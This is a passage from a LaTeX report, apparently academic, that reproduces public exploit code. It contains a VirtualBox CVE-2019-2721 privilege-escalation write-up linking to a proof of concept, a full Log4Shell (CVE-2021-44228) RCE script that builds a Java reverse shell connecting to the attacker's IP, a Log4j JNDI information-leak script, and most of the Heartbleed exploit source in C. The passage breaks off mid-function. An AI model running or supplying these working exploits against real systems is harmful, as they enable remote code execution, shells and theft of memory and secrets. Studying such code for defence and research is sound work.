        
\includegraphics[width=1\textwidth]{images/produtosAfetadosPergunta2_5.png}
    \end{minipage}
    \hfill
    \begin{minipage}{0.49\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/produtosAfetadosPergunta2_6.png}
    \end{minipage}
\end{figure}

\begin{figure}[H]
    \centering
    \begin{minipage}{0.49\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/produtosAfetadosPergunta2_7.png}
    \end{minipage}
    \hfill
    \begin{minipage}{0.49\textwidth}
        \centering
        
\includegraphics[width=1\textwidth]{images/produtosAfetadosPergunta2_8.png}
    \end{minipage}
\end{figure}

\clearpage



\subsection*{Relatório Exploit CVE-2019-2721}

\begin{lstlisting}[breaklines=true]
VirtualBox: COM RPC Interface Code Injection Host EoP
Platform: VirtualBox 6.0.4 r128413 x64 on Windows 10 1809
Class: Elevation of Privilege

Summary: 

The hardened VirtualBox process on a Windows host doesn’t secure its COM interface leading to arbitrary code injection and EoP.

Description:

This issue is similar in scope to others I’ve reported such as S0867394/CVE-2017-10204. It allows you to call arbitrary code inside the hardened process which can expose the kernel drivers to normal user processes resulting in EoP. I’m assuming that this is still an issue you’d like to fix?

The VirtualBox hardening code allows other processes running as the same user to read all virtual memory by granting the PROCESS_VM_READ access right. It isn’t obvious that this could result in arbitrary code execution, except that VirtualBox initializes out-of-process COM and by extension exposes an RPC interface. With access to read arbitrary memory from such a process it’s possible to call existing interfaces running inside the VirtualBox process such as the undocumented IRundown interface which COM uses for various infrastructure tasks. This interface has a DoCallback method which will execute an arbitrary function in the process with a single arbitrary pointer sized argument.

You can get more details from my blog about using this technique as a mechanism to bypass Windows Protected Processes, https://googleprojectzero.blogspot.com/2018/11/injecting-code-into-windows-protected.html. In this case we don’t need to abuse an old version of WERFault to dump memory as the hardening driver allows us to do just read memory.

To fix this issue you might want to block PROCESS_VM_READ access entirely, it’s not clear if this is a necessary access right for something or just because it didn’t seem to be dangerous. I’d also call CoInitializeSecurity at process start and pass an security descriptor to the pSecDesc parameter which limits access to administrators and perhaps service accounts. However be careful if you decide to only initialize CoInitializeSecurity as it’s process wide and has weird behaviors which might result in the security descriptor getting unset. I’d probably call the API every time you call CoInitialize just in case.

Proof of Concept:

I’ve provided a PoC as a C# project. It will use the vulnerability to call ExitProcess with the exit code ‘12345678’ inside a VirtualBox process. Note that by default it’s designed to work out of the box on Windows 10 1809 x64 updated to March 2019. It will fallback to trying to lookup symbol addresses using the DBGHELP library if the combase DLL doesn’t match, however you’ll need to have cached the symbols for combase inside C:\ProgramData\dbg\sym. You can do this by running the ‘symchk’ tool from a Debugging Tools for Windows installation and passing the path to the x64 version of combase.

1) Compile the C# project using Visual Studio 2017. It’ll need to pull NtApiDotNet from NuGet to build.
2) Start a virtual machine and note the PID of the hardened VirtualBox process.
3) As a normal user run the PoC passing the PID of the hardened VirtualBox process.

Expected Result:
The PoC fails to call code inside the target process.

Observed Result:
The PoC executes ExitProcess inside the hardened process and verifies the return code once the process exits.


Proof of Concept:
https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/46747.zip
\end{lstlisting}

\clearpage



\subsection*{Relatório Exploit Apache Log4j 2 - Remote Code Execution}

\begin{lstlisting}[breaklines=true]
# Exploit Title: Apache Log4j 2 - Remote Code Execution (RCE)
# Date: 11/12/2021
# Exploit Authors: kozmer, z9fr, svmorris
# Vendor Homepage: https://logging.apache.org/log4j/2.x/
# Software Link: https://github.com/apache/logging-log4j2
# Version: versions 2.0-beta-9 and 2.14.1.
# Tested on: Linux
# CVE: CVE-2021-44228
# Github repo: https://github.com/kozmer/log4j-shell-poc

import subprocess
import sys
import argparse
from colorama import Fore, init
import subprocess
import threading

from http.server import HTTPServer, SimpleHTTPRequestHandler

init(autoreset=True)

def listToString(s):
str1 = ""
try:
for ele in s:
str1 += ele
return str1
except Exception as ex:
parser.print_help()
sys.exit()

def payload(userip , webport , lport):

genExploit = (
"""
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

public Exploit() throws Exception {
String host="%s";
int port=%s;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()) {
while(pi.available()>0)
so.write(pi.read());
while(pe.available()>0)
so.write(pe.read());
while(si.available()>0)
po.write(si.read());
so.flush();
po.flush();
Thread.sleep(50);
try {
p.exitValue();
break;
}
catch (Exception e){
}
};
p.destroy();
s.close();
}
}
""") % (userip, lport)

# writing the exploit to Exploit.java file

try:
f = open("Exploit.java", "w")
f.write(genExploit)
f.close()
print(Fore.GREEN + '[+] Exploit java class created success')

except Exception as e:
print(Fore.RED + f'[-] Something went wrong {e.toString()}')

checkJavaAvailible()
print(Fore.GREEN + '[+] Setting up fake LDAP server\n')

# create the LDAP server on new thread
t1 = threading.Thread(target=createLdapServer, args=(userip,webport))
t1.start()

# start the web server

httpd = HTTPServer(('localhost', int(webport)), SimpleHTTPRequestHandler)
httpd.serve_forever()

def checkJavaAvailible():
javaver = subprocess.call(['./jdk1.8.0_20/bin/java', '-version'], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
if(javaver != 0):
print(Fore.RED + '[-] Java is not installed inside the repository ')
sys.exit()

def createLdapServer(userip, lport):
sendme = ("${jndi:ldap://%s:1389/a}") % (userip)
print(Fore.GREEN +"[+] Send me: "+sendme+"\n")

subprocess.run(["./jdk1.8.0_20/bin/javac", "Exploit.java"])

url = "
http://{}:{}/#Exploit".format
(userip, lport)
subprocess.run(["./jdk1.8.0_20/bin/java", "-cp",
"target/marshalsec-0.0.3-SNAPSHOT-all.jar", "marshalsec.jndi.LDAPRefServer", url])

def header():
print(Fore.BLUE+"""
[!] CVE: CVE-2021-44228
[!] Github repo:
https://github.com/kozmer/log4j-shell-poc
""")

if __name__ == "__main__":
header()

try:
parser = argparse.ArgumentParser(description='please enter the values ')

parser.add_argument('--userip', metavar='userip', type=str,
nargs='+', help='Enter IP for LDAPRefServer & Shell')

parser.add_argument('--webport', metavar='webport', type=str,
nargs='+', help='listener port for HTTP port')

parser.add_argument('--lport', metavar='lport', type=str,
nargs='+', help='Netcat Port')

args = parser.parse_args()

#print(args.userip)

payload(listToString(args.userip), listToString(args.webport), listToString(args.lport))

except KeyboardInterrupt:
print(Fore.RED + "user interupted the program.")
sys.exit(0)
\end{lstlisting}

\clearpage



\subsection*{Relatório Exploit Apache Log4j2 2.14.1 - Information Disclosure}

\begin{lstlisting}[breaklines=true]
# Exploit Title: Apache Log4j2 2.14.1 - Information Disclosure
# Date: 12/12/2021
# Exploit Author: leonjza
# Vendor Homepage: https://logging.apache.org/log4j/2.x/
# Version: <= 2.14.1
# CVE: CVE-2021-44228

#!/usr/bin/env python3

# Pure python ENV variable leak PoC for CVE-2021-44228
# Original PoC: https://twitter.com/Black2Fan/status/1470281005038817284
#
# 2021 @leonjza

import argparse
import socketserver
import threading
import time

import requests

LDAP_HEADER = b'\x30\x0c\x02\x01\x01\x61\x07\x0a\x01\x00\x04\x00\x04\x00\x0a'


class ThreadedTCPRequestHandler(socketserver.BaseRequestHandler):
    def handle(self) -> None:
        print(f' i| new connection from {self.client_address[0]}')

        sock = self.request
        sock.recv(1024)
        sock.sendall(LDAP_HEADER)

        data = sock.recv(1024)
        data = data[9:]  # strip header

        # example response
        #
        # ('Java version 11.0.13\n'
        #  '\x01\x00\n'
        #  '\x01\x03\x02\x01\x00\x02\x01\x00\x01\x01\x00\x0b'
        #  'objectClass0\x00\x1b0\x19\x04\x172.16.840.1.113730.3.4.2')

        data = data.decode(errors='ignore').split('\n')[0]
        print(f' v| extracted value: {data}')


class ThreadedTCPServer(socketserver.ThreadingMixIn, socketserver.TCPServer):
    pass


def main():
    parser = argparse.ArgumentParser(description='a simple log4j
<=2.14 information disclosure poc '
                                                 '(ref:
https://twitter.com/Black2Fan/status/1470281005038817284)')
    parser.add_argument('--target', '-t', required=True, help='target uri')
    parser.add_argument('--listen-host', default='0.0.0.0',
                        help='exploit server host to listen on
(default: 127.0.0.1)')
    parser.add_argument('--listen-port', '-lp', default=8888,
help='exploit server port to listen on (default: 8888)')
    parser.add_argument('--exploit-host', '-eh', required=True,
default='127.0.0.1',
                        help='host where (this) exploit server is reachable')
    parser.add_argument('--leak', '-l', default='${java:version}',
                        help='value to leak. '
                             'see:
https://twitter.com/Rayhan0x01/status/1469571563674505217 '
                             '(default: ${java:version})')
    args = parser.parse_args()

    print(f' i| starting server on {args.listen_host}:{args.listen_port}')
    server = ThreadedTCPServer((args.listen_host, args.listen_port),
ThreadedTCPRequestHandler)

    serv_thread = threading.Thread(target=server.serve_forever)
    serv_thread.daemon = True
    serv_thread.start()
    time.sleep(1)
    print(f' i| server started')

    payload = f'${{jndi:ldap://{args.exploit_host}:{args.listen_port}/{args.leak}}}'
    print(f' i| sending exploit payload {payload} to {args.target}')

    try:
        r = requests.get(args.target, headers={'User-Agent': payload})
        print(f' i| response status code: {r.status_code}')
        print(f' i| response: {r.text}')
    except Exception as e:
        print(f' e| failed to make request: {e}')
    finally:
        server.shutdown()
        server.server_close()


if __name__ == '__main__':
    main()
\end{lstlisting}

\clearpage




\subsection*{Relatório Exploit OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak}

\begin{lstlisting}[breaklines=true]
/* 
* CVE-2014-0160 heartbleed OpenSSL information leak exploit
* =========================================================
* This exploit uses OpenSSL to create an encrypted connection
* and trigger the heartbleed leak. The leaked information is
* returned within encrypted SSL packets and is then decrypted 
* and wrote to a file to annoy IDS/forensics. The exploit can 
* set heartbeat payload length arbitrarily or use two preset 
* values for NULL and MAX length. The vulnerability occurs due 
* to bounds checking not being performed on a heap value which 
* is user supplied and returned to the user as part of DTLS/TLS 
* heartbeat SSL extension. All versions of OpenSSL 1.0.1 to 
* 1.0.1f are known affected. You must run this against a target 
* which is linked to a vulnerable OpenSSL library using DTLS/TLS.
* This exploit leaks upto 65535 bytes of remote heap each request
* and can be run in a loop until the connected peer ends connection.
* The data leaked contains 16 bytes of random padding at the end.
* The exploit can be used against a connecting client or server,
* it can also send pre_cmd's to plain-text services to establish
* an SSL session such as with STARTTLS on SMTP/IMAP/POP3. Clients
* will often forcefully close the connection during large leak
* requests so try to lower your payload request size. 
*
* Compiled on ArchLinux x86_64 gcc 4.8.2 20140206 w/OpenSSL 1.0.1g 
*
* E.g.
* $ gcc -lssl -lssl3 -lcrypto heartbleed.c -o heartbleed
* $ ./heartbleed -s 192.168.11.23 -p 443 -f out -t 1
* [ heartbleed - CVE-2014-0160 - OpenSSL information leak exploit
* [ =============================================================
* [ connecting to 192.168.11.23 443/tcp
* [ connected to 192.168.11.23 443/tcp
* [ <3 <3 <3 heart bleed <3 <3 <3
* [ heartbeat returned type=24 length=16408
* [ decrypting SSL packet
* [ heartbleed leaked length=65535
* [ final record type=24, length=16384
* [ wrote 16381 bytes of heap to file 'out'
* [ heartbeat returned type=24 length=16408
* [ decrypting SSL packet
* [ final record type=24, length=16384
* [ wrote 16384 bytes of heap to file 'out'
* [ heartbeat returned type=24 length=16408
* [ decrypting SSL packet
* [ final record type=24, length=16384
* [ wrote 16384 bytes of heap to file 'out'
* [ heartbeat returned type=24 length=16408
* [ decrypting SSL packet
* [ final record type=24, length=16384
* [ wrote 16384 bytes of heap to file 'out'
* [ heartbeat returned type=24 length=42
* [ decrypting SSL packet
* [ final record type=24, length=18
* [ wrote 18 bytes of heap to file 'out'
* [ done.
* $ ls -al out
* -rwx------ 1 fantastic fantastic 65554 Apr 11 13:53 out
* $ hexdump -C out
* - snip - snip  
*
* Use following example command to generate certificates for clients.
*
* $ openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
* -keyout server.key -out server.crt
*
* Debian compile with "gcc heartbleed.c -o heartbleed -Wl,-Bstatic \
* -lssl -Wl,-Bdynamic -lssl3 -lcrypto" 
*
* todo: add udp/dtls support.
*
* - Hacker Fantastic
*   http://www.mdsec.co.uk
*
*/
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <getopt.h>
#include <signal.h>
#include <netdb.h>
#include <fcntl.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <inttypes.h>
#include <openssl/bio.h>
#include <openssl/ssl.h>
#include <openssl/err.h>
#include <openssl/evp.h>
#include <openssl/tls1.h>
#include <openssl/rand.h>
#include <openssl/buffer.h>

#define n2s(c,s)((s=(((unsigned int)(c[0]))<< 8)| \
		(((unsigned int)(c[1]))    )),c+=2)
#define s2n(s,c) ((c[0]=(unsigned char)(((s)>> 8)&0xff), \
		 c[1]=(unsigned char)(((s)    )&0xff)),c+=2)

int first = 0;
int leakbytes = 0;
int repeat = 1;
int badpackets = 0;

typedef struct {
	int socket;
	SSL *sslHandle;
	SSL_CTX *sslContext;
} connection;

typedef struct {
  unsigned char type;
  short version;
  unsigned int length;
  unsigned char hbtype;
  unsigned int payload_length;
  void* payload;
} heartbeat;

void ssl_init();
void usage();
int tcp_connect(char*,int);
int tcp_bind(char*, int);
connection* tls_connect(int);
connection* tls_bind(int);
int pre_cmd(int,int,int);
void* heartbleed(connection* ,unsigned int);
void* sneakyleaky(connection* ,char*, int);

int tcp_connect(char* server,int port){
	int sd,ret;
	struct hostent *host;
        struct sockaddr_in sa;
        host = gethostbyname(server);
        sd = socket(AF_INET, SOCK_STREAM, 0);
        if(sd==-1){
		printf("[!] cannot create socket\n");
		exit(0);
	}
	sa.sin_family = AF_INET;
        sa.sin_port = htons(port);
        sa.sin_addr = *((struct in_addr *) host->h_addr);
        bzero(&(sa.sin_zero),8);
	printf("[ connecting to %s %d/tcp\n",server,port);
        ret = connect(sd,(struct sockaddr *)&sa, sizeof(struct sockaddr));
	if(ret==0){
		printf("[ connected to %s %d/tcp\n",server,port);
	}
	else{
		printf("[!] FATAL: could not connect to %s %d/tcp\n",server,port);
		exit(0);
	}
	return sd;
}

int tcp_bind(char* server, int port){
	int sd, ret, val=1;
	struct sockaddr_in sin;
	struct hostent *host;
	host = gethostbyname(server);
	sd=socket(AF_INET,SOCK_STREAM,0);
	if(sd==-1){
    		printf("[!] cannot create socket\n");
		exit(0);
	}
	memset(&sin,0,sizeof(sin));
	sin.sin_addr=*((struct in_addr *) host->h_addr);
	sin.sin_family=AF_INET;
	sin.sin_port=htons(port);
    	setsockopt(sd,SOL_SOCKET,SO_REUSEADDR,&val,sizeof(val));
	ret = bind(sd,(struct sockaddr *)&sin,sizeof(sin));
	if(ret==-1){
		printf("[!] cannot bind socket\n");
		exit(0);
	}
	listen(sd,5);
	return(sd);
}


void ssl_init(){
        SSL_load_error_strings();
        SSL_library_init();
        OpenSSL_add_all_digests();
        OpenSSL_add_all_algorithms();
        OpenSSL_add_all_ciphers();
}

connection* tls_connect(int sd){
        connection *c;
	c = malloc(sizeof(connection));
        if(c==NULL){
		printf("[ error in malloc()\n");
		exit(0);
	}
	c->socket = sd;
        c->sslHandle = NULL;
        c->sslContext = NULL;
        c->sslContext = SSL_CTX_new(SSLv23_client_method());
	SSL_CTX_set_options(c->sslContext, SSL_OP_ALL | SSL_OP_NO_SSLv2 | SSL_OP_NO_SSLv3);
        if(c->sslContext==NULL)
                ERR_print_errors_fp(stderr);
        c->sslHandle = SSL_new(c->sslContext);
        if(c->sslHandle==NULL)
                ERR_print_errors_fp(stderr);
        if(!SSL_set_fd(c->sslHandle,c->socket))
                ERR_print_errors_fp(stderr);
        if(SSL_connect(c->sslHandle)!=1)
                ERR_print_errors_fp(stderr);
        if(!c->sslHandle->tlsext_heartbeat & SSL_TLSEXT_HB_ENABLED ||
                c->sslHandle->tlsext_heartbeat & SSL_TLSEXT_HB_DONT_SEND_REQUESTS){
                printf("[ warning: heartbeat extension is unsupported (try anyway)\n");
        }
	return c;
}

connection* tls_bind(int sd){
	int bytes;
        connection *c;
        char* buf;
	buf = malloc(4096);
        if(buf==NULL){
                printf("[ error in malloc()\n");
                exit(0);
        }
	memset(buf,0,4096);
	c = malloc(sizeof(connection));
	if(c==NULL){
                printf("[ error in malloc()\n");
                exit(0);
        }
	c->socket = sd;
        c->sslHandle = NULL;
        c->sslContext = NULL;
        c->sslContext = SSL_CTX_new(SSLv23_server_method());
        if(c->sslContext==NULL)
                ERR_print_errors_fp(stderr);
	SSL_CTX_set_options(c->sslContext, SSL_OP_ALL | SSL_OP_NO_SSLv2 | SSL_OP_NO_SSLv3);
	SSL_CTX_SRP_CTX_init(c->sslContext);
	SSL_CTX_use_certificate_file(c->sslContext, "./server.crt", SSL_FILETYPE_PEM);
	SSL_CTX_use_PrivateKey_file(c->sslContext, "./server.key", SSL_FILETYPE_PEM);       
	if(!SSL_CTX_check_private_key(c->sslContext)){
		printf("[!] FATAL: private key does not match the certificate public key\n");
		exit(0);
	}
	c->sslHandle = SSL_new(c->sslContext);
        if(c->sslHandle==NULL)
                ERR_print_errors_fp(stderr);
        if(!SSL_set_fd(c->sslHandle,c->socket))
                ERR_print_errors_fp(stderr);
        int rc = SSL_accept(c->sslHandle);
	printf ("[ SSL connection using %s\n", SSL_get_cipher (c->sslHandle));
	bytes = SSL_read(c->sslHandle, buf, 4095);
	printf("[ recieved: %d bytes - showing output\n%s\n[\n",bytes,buf);
	if(!c->sslHandle->tlsext_heartbeat & SSL_TLSEXT_HB_ENABLED ||
                c->sslHandle->tlsext_heartbeat & SSL_TLSEXT_HB_DONT_SEND_REQUESTS){
                printf("[ warning: heartbeat extension is unsupported (try anyway)\n");
        }
        return c;
}

int pre_cmd(int sd,int precmd,int verbose){
	/* this function can be used to send commands to a plain-text
	service or client before heartbleed exploit attempt. e.g. STARTTLS */
	int rc, go = 0;
	char* buffer;
	char* line1;
	char* line2;  
	switch(precmd){
		case 0:
			line1 = "EHLO test\n";
			line2 = "STARTTLS\n";
			break;
		case 1:
			line1 = "CAPA\n";
			line2 = "STLS\n";
			break;
		case 2:
			line1 = "a001 CAPB\n";
			line2 = "a002 STARTTLS\n";
			break;
		default:
			go = 1;
			break;
	}
	if(go==0){
		buffer = malloc(2049);
	        if(buffer==NULL){
                	printf("[ error in malloc()\n");
                	exit(0);
	        }
		memset(buffer,0,2049);
		rc = read(sd,buffer,2048);
		printf("[ banner: %s",buffer);
		send(sd,line1,strlen(line1),0);
		memset(buffer,0,2049);
		rc = read(sd,buffer,2048);
		if(verbose==1){
			printf("%s\n",buffer);
		}
		send(sd,line2,strlen(line2),0);
		memset(buffer,0,2049);
		rc = read(sd,buffer,2048);
		if(verbose==1){
			printf("%s\n",buffer);
		}
	}
	return sd;
}

void* heartbleed(connection *c,unsigned int type){
	unsigned char *buf, *p;
        int ret;
	buf = OPENSSL_malloc(1 + 2);
	if(buf==NULL){
                printf("[ error in malloc()\n");
                exit(0);
        }
	p = buf;
        *p++ = TLS1_HB_REQUEST;
	switch(type){
		case 0:
			s2n(0x0,p);
			break;
		case 1:
			s2n(0xffff,p);
			break;
		default:
			printf("[ setting heartbeat payload_length to %u\n",type);
			s2n(type,p);
			break;
	}
	printf("[ <3 <3 <3 heart bleed <3 <3 <3\n");
        ret = ssl3_write_bytes(c->sslHandle, TLS1_RT_HEARTBEAT, buf, 3);
        OPENSSL_free(buf);
	return c;
}

void* sneakyleaky(connection *c,char* filename, int verbose){
	char *p;
        int ssl_major,ssl_minor,al;
        int enc_err,n,i;
        SSL3_RECORD *rr;
        SSL_SESSION *sess;
	SSL* s;
        unsigned char md[EVP_MAX_MD_SIZE];
        short version;
        unsigned mac_size, orig_len;
        size_t extra;
        rr= &(c->sslHandle->s3->rrec);
        sess=c->sslHandle->session;
        s = c->sslHandle;
        if (c->sslHandle->options & SSL_OP_MICROSOFT_BIG_SSLV3_BUFFER)
                extra=SSL3_RT_MAX_EXTRA;
        else
                extra=0;
        if ((s->rstate != SSL_ST_READ_BODY) ||
                (s->packet_length < SSL3_RT_HEADER_LENGTH)) {
                        n=ssl3_read_n(s, SSL3_RT_HEADER_LENGTH, s->s3->rbuf.len, 0);
                        if (n <= 0)
                                goto apple; 
                        s->rstate=SSL_ST_READ_BODY;
                        p=s->packet;
                        rr->type= *(p++);
                        ssl_major= *(p++);
                        ssl_minor= *(p++);
                        version=(ssl_major<<8)|ssl_minor;
                        n2s(p,rr->length);
			if(rr->type==24){
				printf("[ heartbeat returned type=%d length=%u\n",rr->type, rr->length);
				if(rr->length > 16834){
					printf("[ error: got a malformed TLS length.\n");
					exit(0);
				}
			}
			else{
				printf("[ incorrect record type=%d length=%u returned\n",rr->type,rr->length);
				s->packet_length=0;
				badpackets++;
				if(badpackets > 3){
					printf("[ error: too many bad packets recieved\n");
					exit(0);
				}
				goto apple;
			}
        }
        if (rr->length > s->packet_length-SSL3_RT_HEADER_LENGTH){
                i=rr->length;
                n=ssl3_read_n(s,i,i,1);
                if (n <= 0) goto apple; 
        }
	printf("[ decrypting SSL packet\n");
        s->rstate=SSL_ST_READ_HEADER; 
        rr->input= &(s->packet[SSL3_RT_HEADER_LENGTH]);
        rr->data=rr->input;
        tls1_enc(s,0);
        if((sess != NULL) &&
            (s->enc_read_ctx != NULL) &&
            (EVP_MD_CTX_md(s->read_hash) != NULL))
                {
                unsigned char *mac = NULL;
                unsigned char mac_tmp[EVP_MAX_MD_SIZE];
                mac_size=EVP_MD_CTX_size(s->read_hash);
                OPENSSL_assert(mac_size <= EVP_MAX_MD_SIZE);
                orig_len = rr->length+((unsigned int)rr->type>>8);
                if(orig_len < mac_size ||
                  (EVP_CIPHER_CTX_mode(s->enc_read_ctx) == EVP_CIPH_CBC_MODE &&
                   orig_len < mac_size+1)){
                        al=SSL_AD_DECODE_ERROR;
                        SSLerr(SSL_F_SSL3_GET_RECORD,SSL_R_LENGTH_TOO_SHORT);
                }
                if (EVP_CIPHER_CTX_mode(s->enc_read_ctx) == EVP_CIPH_CBC_MODE){
                        mac = mac_tmp;
                        ssl3_cbc_copy_mac(mac_tmp, rr, mac_size, orig_len);
                        rr->length -= mac_size;
                }
                else{
                        rr->length -= mac_size;
                        mac = &rr->data[rr->length];
                }
                i = tls1_mac(s,md,0);
                if (i < 0 || mac == NULL || CRYPTO_memcmp(md, mac, (size_t)mac_size) != 0)
                        enc_err = -1;
                if (rr->length > SSL3_RT_MAX_COMPRESSED_LENGTH+extra+mac_size)
                        enc_err = -1;
                }
        if(enc_err < 0){
                al=SSL_AD_BAD_RECORD_MAC;
                SSLerr(SSL_F_SSL3_GET_RECORD,SSL_R_DECRYPTION_FAILED_OR_BAD_RECORD_MAC);
                goto apple;
        }
        if(s->expand != NULL){
                if (rr->length > SSL3_RT_MAX_COMPRESSED_LENGTH+extra) {
                        al=SSL_AD_RECORD_OVERFLOW;
                        SSLerr(SSL_F_SSL3_GET_RECORD,SSL_R_COMPRESSED_LENGTH_TOO_LONG);
                        goto apple;
                        }
                if (!ssl3_do_uncompress(s)) {
                        al=SSL_AD_DECOMPRESSION_FAILURE;
                        SSLerr(SSL_F_SSL3_GET_RECORD,SSL_R_BAD_DECOMPRESSION);
                        goto apple;
                        }
                }
        if (rr->length > SSL3_RT_MAX_PLAIN_LENGTH+extra) {
